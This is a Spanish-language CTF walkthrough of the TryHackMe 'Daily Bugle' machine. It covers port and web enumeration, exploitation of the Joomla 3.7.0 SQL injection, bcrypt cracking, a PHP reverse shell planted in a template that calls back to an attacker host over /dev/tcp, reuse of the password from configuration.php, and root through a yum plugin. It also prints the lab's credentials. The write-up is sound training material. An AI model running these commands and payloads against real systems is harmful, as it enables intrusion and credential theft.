# Daily Bugle

## Enumeration

### Nmap

Scan de puertos abiertos

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.201.87.38 -oG allPorts  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-24 16:55 -03
Nmap scan report for 10.201.87.38
Host is up (0.28s latency).
Not shown: 65144 closed tcp ports (reset), 388 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

Enumeración de puertos abiertos 

```bash
nmap -sC -sV -p22,80,3306 -Pn 10.201.87.38 -oN targed.txt            
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-24 16:57 -03
Nmap scan report for 10.201.87.38
Host is up (0.28s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
```

### HTTP

```bash
whatweb http://10.201.87.38 
http://10.201.87.38 [200 OK] Apache[2.4.6], Bootstrap, Cookies[eaa83fe8b963ab08ce9ab7d4a798de05], Country[RESERVED][ZZ], HTML5, HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.6.40], HttpOnly[eaa83fe8b963ab08ce9ab7d4a798de05], IP[10.201.87.38], JQuery, MetaGenerator[Joomla! - Open Source Content Management], PHP[5.6.40], PasswordField[password], Script[application/json], Title[Home], X-Powered-By[PHP/5.6.40]
```




```bash
http://10.201.87.38/robots.txt
```



```bash
http://10.201.87.38/administrator/
```


### FUZZ

```bash
gobuster dir -u http://10.201.87.38 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x txt,php,js                
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.201.87.38
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              js,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/templates            (Status: 301) [Size: 238] [--> http://10.201.87.38/templates/]
/media                (Status: 301) [Size: 234] [--> http://10.201.87.38/media/]
/index.php            (Status: 200) [Size: 9278]
/images               (Status: 301) [Size: 235] [--> http://10.201.87.38/images/]
/modules              (Status: 301) [Size: 236] [--> http://10.201.87.38/modules/]
/bin                  (Status: 301) [Size: 232] [--> http://10.201.87.38/bin/]
/plugins              (Status: 301) [Size: 236] [--> http://10.201.87.38/plugins/]
/includes             (Status: 301) [Size: 237] [--> http://10.201.87.38/includes/]
/language             (Status: 301) [Size: 237] [--> http://10.201.87.38/language/]
/README.txt           (Status: 200) [Size: 4494]
/components           (Status: 301) [Size: 239] [--> http://10.201.87.38/components/]
/cache                (Status: 301) [Size: 234] [--> http://10.201.87.38/cache/]
/libraries            (Status: 301) [Size: 238] [--> http://10.201.87.38/libraries/]
/robots.txt           (Status: 200) [Size: 836]
/tmp                  (Status: 301) [Size: 232] [--> http://10.201.87.38/tmp/]
/LICENSE.txt          (Status: 200) [Size: 18092]
/layouts              (Status: 301) [Size: 236] [--> http://10.201.87.38/layouts/]
/administrator        (Status: 301) [Size: 242] [--> http://10.201.87.38/administrator/]
/configuration.php    (Status: 200) [Size: 0]
/htaccess.txt         (Status: 200) [Size: 3005]
/cli                  (Status: 301) [Size: 232] [--> http://10.201.87.38/cli/]
Progress: 218936 / 882228 (24.82%)^C
```

## Exploit

scan con joomscan

```bash
joomscan -u http://10/201.87.38

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] admin finder
[++] Admin page : http://10.201.87.38/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://10.201.87.38/robots.txt 

Interesting path found from robots.txt
http://10.201.87.38/joomla/administrator/
http://10.201.87.38/administrator/
http://10.201.87.38/bin/
http://10.201.87.38/cache/
http://10.201.87.38/cli/
http://10.201.87.38/components/
http://10.201.87.38/includes/
http://10.201.87.38/installation/
http://10.201.87.38/language/
http://10.201.87.38/layouts/
http://10.201.87.38/libraries/
http://10.201.87.38/logs/
http://10.201.87.38/modules/
http://10.201.87.38/plugins/
http://10.201.87.38/tmp/
```

Buscamos con searchsploit vulnerabilidades de Joomla v3.7.0

```bash
searchsploit joomla 3.7.0
 
Exploit Title                                                                                                                                   |  Path

Joomla! 3.7.0 - 'com_fields' SQL Injection                                                                                                      | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                                                                                   | php/webapps/43488.txt
```

Buscamos vulnerabilidades del exploit [CVE-2017-8917](https://github.com/stefanlucas/Exploit-Joomla)


Descargamos el archivo de python

```bash
python3 joomblah.py http://10.201.87.38/

[-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Guardamos el Hash

```bash
cat hash.txt     
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```


crack de Hash

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)     
1g 0:00:04:04 DONE (2025-09-24 17:30) 0.004094g/s 191.7p/s 191.7c/s 191.7C/s thelma1..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


| user | pass |
|---|---|
| jonah | spiderman123 |

Probamos las credenciales encontradas





Existen una vulnerabilidad en esta version asociado a un template que trae por defecto, pero para que la vulnerabilidad sea mas sigilosa vamos a ocupar el template que NO se esta ejecutando 



En cualquier plantilla podemos insertar código php



Modificamos el index y agregamos la revshell, luego guardamos y damos click Template Preview

```bash
exec("/bin/bash -c 'bash -i >& /dev/tcp/IP_ATTACK/443 0>&1'");
```




con ncat hemos accedido a la maquina victima

```bash
nc -nvlp 443 
listening on [any] 443 ...
connect to [10.9.244.36] from (UNKNOWN) [10.201.87.38] 50386
bash: no job control in this shell
bash-4.2$ whoami
whoami
apache
bash-4.2$
```




existen 2 usuarios 
```bash
bash-4.2$ cat /etc/passwd | grep sh
cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
```

dentro de la ruta `/var/www/html` joomla guarda en `configuration.php` las configuración  de joomlal, hay un password vamos a probar

```bash
cat configuration.php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'UAMBRWzHO3oFPmVC';
	public $gzip = '0';
	public $error_reporting = 'default';
	public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
	public $ftp_host = '127.0.0.1';
	public $ftp_port = '21';
	public $ftp_user = '';
	public $ftp_pass = '';
	public $ftp_root = '';
	public $ftp_enable = '0';
	public $offset = 'UTC';
	public $mailonline = '1';
	public $mailer = 'mail';
	public $mailfrom = 'jonah@tryhackme.com';
```

hemos cambiado al usuario `jjameson`

```bash
bash-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu
whoami
jjameson
```

```bash
# cambios la terminal para obtener mejor movimiento
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
	reset xterm

# maquina pwned
export TERM=xterm
export SHELL=bash
stty rows
```

## Privilege Escalation

con `sudo -l`, hemos encontrado que hay un binario llamado `yum` el cual tenemos opciones como root



[GTFO bins: yum](https://gtfobins.github.io/gtfobins/yum/)

Leyendo la documentación se puede utilizar la siguiente opción



```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Hemos obtenido el acceso al usuario root



